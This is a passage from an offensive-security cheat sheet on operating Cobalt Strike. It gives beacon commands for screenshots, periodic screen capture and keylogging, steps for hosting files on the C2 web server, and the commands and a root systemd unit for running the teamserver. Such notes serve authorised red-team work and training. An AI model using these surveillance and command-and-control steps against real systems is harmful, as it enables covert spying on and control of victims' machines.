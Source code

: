 #### Take screenshots
- View screenshot. Go to View -> Screenshots
```
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop
```

#### Keylogger
```
keylogger
```

### Webserver
#### Upload file
- Go to Site Management -> Host File and select your document.
- Set the Location URI, Local Host and click Launch.

#### Check web logs
- Go to View -> Web log

### Teamserver
#### Start teamserver
```
cd /opt/cobaltstrike
sudo ./teamserver <IP> <PASSWORD> <C2 PROFILE>

sudo ./teamserver <IP> <PASSWORD> c2-profiles/normal/webbug.profile
```

### Teamserver service
#### Create service
```
sudo vim /etc/systemd/system/csteamserver.service

[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver <IP> <PASSWORD> <C2 PROFILE>

[Install]
WantedBy=multi-user.target
```
